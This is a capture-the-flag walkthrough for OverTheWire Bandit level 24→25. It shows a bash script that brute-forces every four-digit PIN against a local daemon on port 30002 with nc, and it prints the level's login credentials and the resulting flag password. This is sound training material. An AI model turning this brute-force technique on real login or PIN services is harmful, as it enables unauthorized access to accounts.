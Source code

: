 <p align="center">
<a href="level-23→24.md">Previous Level: Level 23 → 24</a>
</p>

# [Bandit Level 24 → 25](https://overthewire.org/wargames/bandit/bandit25.html)

## Login Info
- **SSH:** `ssh bandit.labs.overthewire.org -p 2220 -l bandit24`
- **Password:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

---

## Task 
The goal of this level is to send the **current level's password + a 4 digit pincode** to a daemon listening on port 30002. If the pincode is correct, the password for the next level will be returned. There is no way to retrieve the pincode except by going through all the 10000 combinations (brute forcing).

## Steps
Let's connect to the daemon on port 30002 and try some input:
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
Wrong! Please enter the correct current password and pincode. Try again.
```
We can see the greeting message as well as the error message upon entering an incorrect attempt.
Now obviously we are not going to painstakingly  write this out 1 by 1.  
Let's create a temp dir to work out of:
```bash
bandit24@bandit:~$ mktemp -d
/tmp/tmp.5Ck1rNgArW
bandit24@bandit:~$ cd /tmp/tmp.5Ck1rNgArW
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ 
```
Let's use a bash script to create all possible permutations of the password and pincode, after we're done we can pipe that file into `nc` and filter with `grep` with the `-v` option which inverts the match since we know an invalid entry is met with **'Wrong! ...'**
```bash
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ nano bruteforce.sh
```
Inside bruteforce.sh we write:
```bash
#!/bin/bash
for i in {0000..9999}
do
  echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> permutations.txt
done

cat permutations.txt | nc localhost 30002 | grep -v 'Wrong!' > password.txt
```

Make the script executable and run it:
```bash
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ chmod +x bruteforce.sh
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ ls -l
total 4
-rwxrwxr-x 1 bandit24 bandit24 182 Oct  2 08:48 bruteforce.sh
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ ./bruteforce.sh 
```
After running it, let's check our directory for password.txt and print it:
```bash
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ ls
bruteforce.sh  password.txt  permutations.txt
bandit24@bandit:/tmp/tmp.5Ck1rNgArW$ cat password.txt 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
## Flag
```bash
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

## Notes
- `for i in {0000..9999}; do …; done` loops over the numbers 0000 to 9999, executing the commands between `do` and `done` for each `i`.
- `cat file.txt` streams the file’s contents to stdout, and each newline (`\n`) in the file acts like **pressing Enter** when sending input to a program.
- In `grep`, the `-v` option inverts the match, showing only lines that do not contain the specified pattern.


<p align="center">
<a href="level-25→26.md">Next Level: Level 25 → 26</a>
</p>


